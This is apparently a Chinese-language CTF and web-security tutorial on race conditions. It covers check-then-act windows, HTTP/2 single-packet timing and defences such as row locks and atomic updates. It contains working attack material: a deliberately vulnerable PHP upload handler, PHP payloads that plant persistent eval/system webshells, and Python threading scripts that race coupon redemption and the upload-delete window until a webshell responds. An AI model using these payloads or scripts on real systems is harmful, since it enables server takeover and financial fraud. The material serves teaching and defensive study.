


# ⏱️ 条件竞争 (Race Condition) 深度剖析：Check-Then-Act 状态机突破与 HTTP/2 单包并发黑科技

> **时序安全基石**：在多进程、多线程与分布式 Web 架构中，程序的执行状态往往依赖于多个操作的**原子性（Atomicity）与时序一致性**。
> 当开发人员未能对共享临界资源（如用户余额、优惠券使用状态、临时上传文件）施加严格的互斥锁或数据库事务锁时，程序逻辑就会暴露出经典的 **Check-Then-Act（检查-随后执行）时间窗口**！
> 攻击者通过毫秒级乃至微秒级的高并发并行请求，在状态尚未持久化锁定的微小缝隙间完成多次突破，实现“一券多用”、“余额超额提现”乃至“在恶意文件被删除前强行执行”！

---

## 0. 基础前置认知与小白扫盲：什么是条件竞争（Race Condition）？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 通俗比喻：两个小偷同时在两台 ATM 机上取走最后 100 块
* **系统处理业务的微秒级时间差（Check-Then-Act）**：
  * 很多系统在处理用户请求时，代码逻辑是分步进行的：
    1. **第一步（检查 Check）**：查询数据库，看你的余额是不是大于 100 元；
    2. **第二步（执行 Act）**：把 100 元现金吐出来；
    3. **第三步（扣减 Update）**：在数据库里把你的余额扣减为 0 元。
* **黑客的并发雷霆一击**：
  * 在计算机底层，第一步和第三步之间，可能存在 **0.01 秒（10 毫秒）的微小处理间隙**！
  * 黑客利用多线程并发发包工具（如 Burp Suite 的 Turbo Intruder），在 1 毫秒内同时向服务器发送 50 个取款请求！
  * 这 50 个请求几乎在同一瞬间到达第一步，系统检查发现：“余额有 100 元，通过！”
  * 结果 50 个请求全部通过了检查，系统吐出了 50 次现金，余额才慢吞吞被扣减为 0！黑客凭借时间差白嫖了 50 倍资产！

---

## 一、条件竞争的底层模型：Check-Then-Act 时间窗口



---

## 二、两大经典攻防实战场景剖析

### 1. 场景一：文件上传条件竞争（竞争包含执行）

#### 后端脆弱处理逻辑（常见于各类 CMS 与框架）：
```php
<?php
$upload_dir = "uploads/";
$filename = basename($_FILES['file']['name']);
$target = $upload_dir . $filename;

// 1. 业务逻辑第一步：先将上传的文件无条件落盘保存到 Web 目录！
if (move_uploaded_file($_FILES['file']['tmp_name'], $target)) {
    
    // 2. 业务逻辑第二步：调用杀毒函数检测文件内容是否包含恶意后门
    $content = file_get_contents($target);
    if (preg_match('/<\?php|eval|system/i', $content)) {
        // 💥 致命时间缝隙：在落盘后与 unlink 删除之间存在约数十微秒的时间差！
        unlink($target);
        die("Malicious file detected and removed!");
    }
}
?>
```

#### 攻防突破策略（“借鸡生蛋”写马）：
* 虽然被上传的文件 `shell.php` 最终会被 `unlink` 删掉，但在它**被写入硬盘到被执行删除的这数十微秒内，该文件在 Web 目录下是真实存在的！**
* 如果攻击者在文件上传的极短瞬间内，以极高频率并发访问 `http://target/uploads/shell.php`，只要命中哪怕一次，让 PHP 引擎解析该文件：
* **上传的代码内容设计**：
  ```php
  <?php
  // 命中后立即在同目录下动态生成一个全新的永不被删的后门文件！
  file_put_contents('daemon.php', '<?php eval($_POST["cmd"]); ?>');
  ?>
  ```
* 即使 `shell.php` 随后被服务器检测删除，但新生成的 `daemon.php` 已成功持久化，拿到永久 WebShell！

---

### 2. 场景二：优惠券 / 提现 / 限量抢购 Limit-Overrun

* **成因**：
  后端先判断 `if ($coupon->is_used == false)`，随后发送优惠券商品，最后才执行 `$coupon->set_used()`。
* **利用**：
  并发提交 20~50 个兑换请求，使得多个请求同时读取到 `is_used == false`，单张优惠券被重复抵扣多次。

---

## 三、并发发包技术革命：从多线程到 HTTP/2 单包攻击（Single-Packet Attack）

在攻防演练中，很多攻击者发现自己明明写了多线程并发脚本，却经常无法触发竞争。**问题出在网络层的不确定性（Network Jitter）！**

### 1. 传统 HTTP/1.1 并发的物理局限
* HTTP/1.1 每个请求走独立的 TCP 连接或通过流水线发送。
* 受到操作系统网卡排队、TCP 握手时序、路由节点延迟等物理限制，各个数据包到达目标服务端通常会有 **5ms 到 50ms 的时间漂移（Jitter）**。
* 这个抖动远远大于服务端业务逻辑处理的纳秒级微秒级窗口，导致请求变成了“排队串行处理”，无法触发竞争！

---

### 2. PortSwigger 提出的革命性突破：HTTP/2 单包攻击（Single-Packet Attack）



#### 核心机制揭秘：
1. **单连接多路复用（Multiplexing）**：HTTP/2 允许在单一 TCP 连接内部并发并行传输数以百计的独立数据流（Streams）。
2. **延迟组装最后一个 TCP 关键帧**：
   攻击工具（如 Burp Turbo Intruder）首先向服务器发送各个请求的前半段头部（开启连接并缓存）；
   最后，工具把所有请求的**末尾触发帧（END_STREAM）合并压缩进同一个 TCP 数据包中**发射！
3. **物理同步**：服务器网卡在处理该单个 TCP 报文时，一次性将这几十个请求同时递交给 Web 服务器内核，**网络抖动被彻底抹平至 0 毫秒！** 成功率从 5% 暴增至 99%！

---

## 四、Python 并发脚本编写（线程栅栏与异步协程）

在没有 HTTP/2 或需要自定义自动化发包时，使用 **`threading.Barrier`（线程栅栏）** 逼近极限同步：

```python
#!/usr/bin/env python3
import threading
import requests

TARGET_URL = "http://challenge.ctf:8080/redeem_coupon.php"
NUM_THREADS = 20

# 创建一个容量为 20 的线程栅栏
# 所有子线程会卡在 barrier.wait()，直到全部 20 个线程就绪，同时放行起跑！
barrier = threading.Barrier(NUM_THREADS)

def attack_worker(thread_id):
    session = requests.Session()
    # 预先准备好数据与连接
    req = requests.Request('POST', TARGET_URL, data={'coupon_code': 'VIP_DISCOUNT_2026'}).prepare()
    
    # 阻塞等待，直到全部线程就位
    barrier.wait()
    
    # 瞬间并发发射
    try:
        resp = session.send(req, timeout=3)
        if "Success" in resp.text:
            print(f"[+] Thread {thread_id} SUCCESS: {resp.text.strip()}")
    except Exception as e:
        pass

threads = []
for i in range(NUM_THREADS):
    t = threading.Thread(target=attack_worker, args=(i,))
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```

---

## 五、CTF 实战靶场案例复现（上传删除竞争夺旗）

### 靶场情境：临时头像上传检查功能

* 目标地址：`http://challenge.ctf:8080/avatar_upload.php`
* 上传文件先存至 `/avatars/exp.php`，随后检测是否含有敏感词并 `unlink`。

### 1. 编写双向对抗并发 Exploit（上传线程 vs 访问线程）：

```python
#!/usr/bin/env python3
import requests
import threading

UPLOAD_URL = "http://challenge.ctf:8080/avatar_upload.php"
SHELL_URL = "http://challenge.ctf:8080/avatars/shell.php"
DAEMON_URL = "http://challenge.ctf:8080/avatars/daemon.php"

stop_flag = False

# 线程 A: 不断上传写入文件的木马
def uploader():
    payload = {
        'file': ('shell.php', '<?php file_put_contents("daemon.php", "<?php system($_GET[\'cmd\']);?>"); ?>', 'image/png')
    }
    while not stop_flag:
        try:
            requests.post(UPLOAD_URL, files=payload, timeout=2)
        except:
            pass

# 线程 B: 疯狂请求执行 shell.php 触发 daemon.php 生成
def visitor():
    global stop_flag
    while not stop_flag:
        try:
            r = requests.get(SHELL_URL, timeout=1)
            # 尝试探测 daemon.php 是否生成
            check = requests.get(f"{DAEMON_URL}?cmd=id", timeout=1)
            if "uid=" in check.text:
                print("\n[🎉] Exploit SUCCESS! Daemon webshell planted successfully!")
                stop_flag = True
                break
        except:
            pass

# 启动 5 个上传线程与 20 个访问线程
for _ in range(5):
    threading.Thread(target=uploader).start()
for _ in range(20):
    threading.Thread(target=visitor).start()
```

### 2. 执行结果与回显：
```text
[+] Launching race condition workers...
[+] Probing race window...
[🎉] Exploit SUCCESS! Daemon webshell planted successfully!
```
成功在文件被删除前的数十微秒微小间隙内捕获执行窗口，持久化植入 `daemon.php`，读取到根目录 Flag！

---

## 六、防御与事务加固规范

1. **数据库行级排他锁（悲观锁，Pessimistic Locking）**：
   在事务中检查余额时，使用 `FOR UPDATE` 锁定目标行，阻塞其他并发查询：
   ```sql
   START TRANSACTION;
   SELECT balance FROM user WHERE id = 1 FOR UPDATE;
   -- 此时其他事务对本行的 SELECT ... FOR UPDATE 会被挂起，直到本事务提交
   UPDATE user SET balance = balance - 100 WHERE id = 1;
   COMMIT;
   ```
2. **比较并交换机制（乐观锁，CAS 机制）**：
   直接利用 SQL 语句的原子性更新：
   ```sql
   UPDATE user SET balance = balance - 100 WHERE id = 1 AND balance >= 100;
   ```
   检查被影响的行数（`affected_rows`），若为 0 说明余额不足，彻底杜绝并发超额扣款。
3. **分布式互斥锁（Redis Redlock）**：
   在执行敏感业务前，使用分布式锁锁定当前用户的锁标识：
   ```text
   SET lock:user:1 random_token NX PX 5000
   ```
4. **文件上传规范**：
   **绝对禁止先落盘再检测**！必须先在操作系统内存（RAM）或临时目录完成杀毒过滤与后缀白名单校验，合格后再移动到可访问目录。

---

## 🔗 相关双向链接
- 上级模块：[[09-认证授权与业务逻辑漏洞]]
- 前置技术：[[01-JWT原理与攻击面（空加密none、密钥爆破、公私钥混淆、JWK注入）]]
- 逻辑缺陷：[[03-越权与密码重置逻辑缺陷]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
